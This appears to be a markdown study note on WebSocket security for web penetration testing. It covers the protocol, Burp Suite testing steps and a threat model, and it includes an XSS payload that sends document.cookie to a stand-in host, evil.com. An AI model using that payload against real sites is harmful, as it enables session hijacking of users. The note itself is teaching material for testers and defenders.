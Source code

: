 # WebSocket Notes for Web Pentesting

---

## 1. What is a WebSocket?

A **WebSocket** is a communication protocol that enables **persistent, two-way (full-duplex)** communication between a client (usually a browser) and a server over a **single TCP connection**.

Unlike HTTP, where the connection closes after a request/response, **WebSockets stay open**, allowing **real-time communication**.

## 2. Use Cases for WebSockets

- Real-time chat applications
- Online games
- Stock tickers
- Live notifications
- Collaborative apps (e.g., Google Docs)

## 3. WebSocket URL Format

WebSocket URLs are **not normal browser URLs**.

| Protocol | Description                                        |
| -------- | -------------------------------------------------- |
| `ws://`  | Insecure WebSocket connection (like HTTP)          |
| `wss://` | Secure WebSocket connection using TLS (like HTTPS) |

**Example:**

```js
const socket = new WebSocket('wss://`example.com/socket');
```

## 4. WebSocket Components

| Part     | Value       | Description                                   |
| -------- | ----------- | --------------------------------------------- |
| Protocol | `wss://`    | WebSocket over TLS (encrypted)                |
| Domain   | example.com | Target domain                                 |
| Path     | /socket     | The endpoint where the WebSocket is connected |

## 5. Basic WebSocket Communication (Client-side)

```javascript
const socket = new WebSocket('wss://`example.com/socket');

socket.onopen = () => {
  console.log('Connected');
  socket.send('Hello Server');
};

socket.onmessage = event => {
  console.log('Message from server:', event.data);
};

socket.onerror = error => {
  console.error('WebSocket Error:', error);
};

socket.onclose = () => {
  console.log('Connection closed');
};
```

## 6. WebSocket vs HTTP

| Feature    | HTTP                           | WebSocket                      |
| ---------- | ------------------------------ | ------------------------------ |
| Connection | Request/response (stateless)   | Persistent (full-duplex)       |
| Real-time  | No                             | Yes                            |
| Latency    | Higher (reconnect per request) | Lower (single open connection) |
| Use Case   | Page loads, forms              | Chat, games, real-time feeds   |

## 7. WebSocket Security Considerations

- Use `wss://` for encryption (avoid `ws://` on production)

- WebSockets bypass CORS and CSRF protections

- Input validation and output encoding must be handled manually

- Use authentication, rate-limiting, and access control

- Log and monitor WebSocket traffic for anomalies

## 8. XSS via WebSocket

Vulnerability

If untrusted data from WebSocket is inserted into the DOM unsafely (e.g. via `innerHTML`), an attacker can execute JavaScript (XSS).
**Vulnerable Code:**

```javascript
socket.onmessage = event => {
  chatBox.innerHTML += `<p>${event.data}</p>`; // unsafe
};
```

**Attack Payload:**

```javascript
<script>document.location='https://evil.com?c='+document.cookie</script>
```

**Secure Version:**

```javascript
socket.onmessage = event => {
  const msg = document.createTextNode(event.data); // safe
  const p = document.createElement('p');
  p.appendChild(msg);
  chatBox.appendChild(p);
};
```

## 9. Testing WebSockets in Burp Suite

- Go to Proxy > HTTP History

- Find a request that initiates the WebSocket connection

- Right-click → "Send to Repeater" or "Do Intercept"

- Use WebSocket tab to view real-time messages

- Modify, drop, or replay WebSocket messages

- Look for:

  - Reflection of data

  - Lack of validation

  - Privilege escalation

  - Hidden admin commands

  - Injection points

## 10. Real-World WebSocket Attack Examples

### 1. XSS via WebSocket message

- Attacker sends <script>alert(1)</script> to a chat app

- If the app uses innerHTML to render messages → XSS

### 2. Sensitive Data Leak

- WebSocket messages may include session IDs, tokens, or PII

- Attacker intercepts or views these in Burp

### 3. Command Injection (server-side)

- If WebSocket messages are passed directly to shell commands or DB queries

## 11. Summary Table: WebSocket Threat Model

| Risk                    | Description                                       |
| ----------------------- | ------------------------------------------------- |
| XSS                     | Rendering untrusted messages into DOM unsafely    |
| Injection (SQL/Command) | Server trusts user input from WebSocket           |
| Info Disclosure         | Sensitive data in WS messages                     |
| Auth Bypass             | Weak session handling over persistent connections |
| Insecure Transport      | Using `ws://` instead of `wss://`                 |

## 12. Key Points to Remember

- WebSockets are powerful but easy to misuse.

- They do not have built-in protections like CSRF tokens or CORS.

- Always validate input on both client and server.

- Treat WebSocket traffic as untrusted, just like normal HTTP input.
